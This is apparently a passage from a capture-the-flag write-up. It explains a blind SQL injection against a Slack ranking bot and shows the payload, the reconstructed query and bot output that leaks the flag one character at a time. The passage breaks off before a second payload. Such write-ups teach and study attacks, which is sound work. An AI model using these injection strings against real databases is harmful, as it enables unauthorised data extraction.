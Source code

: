 Let's try inputting one of the team names, ``UMR``.

```
Nathan Melwani  11:17 PM
rank UMR
hof2APP  11:17 PM
18 - UMR
```

Based on the method, we input a string and get a rank and team name out of it. This limits what information we are able to access significantly. We can assume our query is something like this:

```
SELECT * FROM rankings WHERE team_name = `<user input>`
```

We also know that we can get the flag with this query:

```
SELECT flag FROM flags
```

With this, we can create the following injection:

```
rank ' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = '
```

Let's go through each and every part of query. The first word `rank` is used to run the command that takes in our user input. The ``'`` character is used to close the string used for user input. We are using OR so that we can compare and get data to the flag itself. Skipping to the end, the last ``OR rank = '`` is used to close the query, so that it is valid. The full query would look something like this:

```
SELECT * FROM rankings WHERE team_name = '' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = ''
```

Now to explain the middle part. We will select the first character of the flag and run it through ``unicode()``, which returns an ascii value of that character of the string. The problem is, in order for the query to successfully result in output, it needs to be able to display a team name that corresponds to a proper team number. This means that the resulting number needs to be between 1 and 20, as these are the only team numbers in the database. Therefore, for the first character (and to show this injection works), I subtract it by 105. The flag format is ``we{*}``, so the first character is ``w``. We know the ascii value of ``w`` is 119. 119-105=14, so if this query works it will show the 14th ranked team.

```
Nathan Melwani  11:26 PM
rank ' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = '
hof2APP  11:26 PM
14 - w01verines
```

It worked! From this, you can tell that finding the full flag is very, very tedious. You have to keep guessing numbers to subtract by until you find one that is 20 lower than the correct char at that position. Here is one more example. The third char is ``{`` as per the flag format. The ascii value of ``{`` is 123. Therefore, we can use the following injection:
